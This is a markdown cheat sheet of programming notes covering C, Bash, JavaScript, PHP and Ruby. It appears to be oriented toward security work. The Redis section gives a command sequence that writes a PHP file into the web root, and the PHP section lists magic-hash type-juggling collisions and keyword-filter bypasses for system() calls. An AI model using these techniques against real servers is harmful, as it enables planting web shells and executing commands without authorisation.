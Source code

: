# Programming
<!-- toc -->

## C
- .init / .fini

  ```C
  #include <stdio.h>
  __attribute__((constructor(101))) void func1() {
  }

  __attribute__((constructor(102))) void func2() {
  }

  __attribute__((constructor)) void func3() {
  }

  __attribute__((destructor)) void func4() { // Run after main function.
  }

  int main() {
    return 0;
  }
  ```

## Shell
- [Shell Parameter Expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html#Shell-Parameter-Expansion)

  | Parameter Expansion   | x="a1 b1 c2 d2" |
  |:----------------------|:----------------|
  | `${x#*1}`             | &nbsp; b1 c2 d2 |
  | `${x##*1}`            | &nbsp; c2 d2    |
  | `${x%1*}`             | a1 b            |
  | `${x%%1*}`            | a               |
  | `${x/1/3}`            | a3 b1 c2 d2     |
  | `${x//1/3}`           | a3 b3 c2 d2     |
  | `${x//?1/z3}`         | z3 z3 c2 d2     |
  | `${x:0:2}`            | a1              |

- Command
  - printf

    ```bash
    printf '%s.' a b c
    ------------------
    a.b.c.
    ```

## Redis
- Write file

  ```
  FLUSHALL
  SET payload "<?php phpinfo() ?>"
  CONFIG SET DIR /var/www/html/
  CONFIG SET DBFILENAME shell.php
  SAVE
  ```

- [RCE](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## JavaScript
- Reference
  - [wtfjs](https://github.com/denysdovhan/wtfjs)
  - [JavaScript Truth Table](https://thomas-yang.me/projects/oh-my-dear-js/)
  - [你懂 JavaScript 嗎？#8 強制轉型（Coercion）](https://ithelp.ithome.com.tw/articles/10201512)
- Weak Type (comparison `==`)
  - [] == 0
  - [] == "0"
  - ['a', ['b', 'c']] == "a,b,c"
  - "b" + "a" + + "a" + "a" == baNaNa
- Prototype Chain
  ```
  __proto__ 
  ─────────>
                                      
         ┌─────────────────────────────┐ ┌───────────────────────────────────────────────────┐
         │                             │ │                                                   │
         │                             │ │                                                   │
         │                             │ │                   ┌──────┐                        │
         │                             │ │                   │ null │                        │
         │                             │ │                   └──────┘                        │
         │                             │ │                      ↑                            │
         │                             ↓ ↓                      │                            │
  ┌────────────┐    prototype┌────────────────────┐    ┌──────────────────┐  constructor┌──────────┐
  │ Function() │─────────────│ Function.prototype │───>│ Object.prototype │─────────────│ Object() │
  └────────────┘constructor  └────────────────────┘    └──────────────────┘prototype    └──────────┘
                                        ↑                       ↑          
                                        │                       │
                                     ┌─────┐    prototype┌─────────────┐
                                     │ A() │─────────────│ A.prototype │
                                     └─────┘constructor  └─────────────┘
                                                                ↑          
                                                                │
                                                           ┌─────────┐
                                                           │ new A() │
                                                           └─────────┘
  ```

## PHP
- Reference
  - [php.net](https://www.php.net/)
- Weak Type (comparison `==`)
  - [PHP Truth Table](https://www.php.net/manual/en/types.comparisons.php)
  - [String to Number Comparison](https://www.php.net/manual/en/migration80.incompatible.php#migration80.incompatible.core.string-number-comparision)
  - `0eXXXX == 0eYYYY`
    - md5(240610708) = 0e462097431906509019562988736854
    - md5(314282422) = 0e990995504821699494520356953734
    - md5(QLTHNDT) = 0e405967825401955372549139051580
  - PHP Array
    - $arr[idx] <-> $arr{idx}
    - strcmp([], []) -> NULL
    - md5([]) -> NULL
    - sha1([ ]) -> NULL
    - strlen([ ]) -> NULL
    - file\_put\_contents("info.php", ["<?php ", "phpinfo();"]);
- Keyword Bypass
  - Case Insensitive
    - `<?php SySTeM("ls -al"); ?>`
  - Variable Function
    - `$func="system"; $func("ls -al");`
  - system(id) -> system("id")
  - echo \`id\` -> system("id")
- [Tags](https://www.php.net/manual/en/language.basic-syntax.phptags.php)
  - normal tag

    ```
    <?php echo 'test' ?>
    ```

  - short tag
    > can be disabled via the `short_open_tag` in `php.ini`, or are disabled
    > by default if PHP is built with the `--disable-short-tags` configuration

    ```php
    <? echo 'test' ?>
    ```

  - short echo tag

    ```php
    <?= 'test' ?>
    ```

## Python
- Reference
  - [wtfpython](https://github.com/satwikkansal/wtfpython) 

## Ruby
- Object Model
  ```
  superclass
  ──────────>

      ┌──────────────────────────────────────────────────────────┐
      │                                                          │
      │                       ┌─────┐                            │
      │                       │ nil │                            │
      │                       └─────┘                            │
      │                          ↑                               │
      │                          │                               │
      │                   ┌─────────────┐  singleton_class┌──────────────┐ 
      │                   │ BasicObject │─────────────────│ #BasicObject │
      │                   └─────────────┘                 └──────────────┘
      │                          ↑                               ↑
      ↓                          │                               │
  ┌───────┐    ┌────────┐    ┌────────┐      singleton_class┌─────────┐
  │ Class │───>│ Module │───>│ Object │─────────────────────│ #Object │
  └───────┘    └────────┘    └────────┘                     └─────────┘
                                 ↑                               ↑ 
                                 │                               │
                          class┌───┐            singleton_class┌────┐
          ┌────────────────────│ A │───────────────────────────│ #A │
          │                    └───┘                           └────┘
          │                      ↑  
          │                      │  
        ┌───┐   singleton_class┌────┐
        │ a │──────────────────│ #a │
        └───┘                  └────┘

  ```
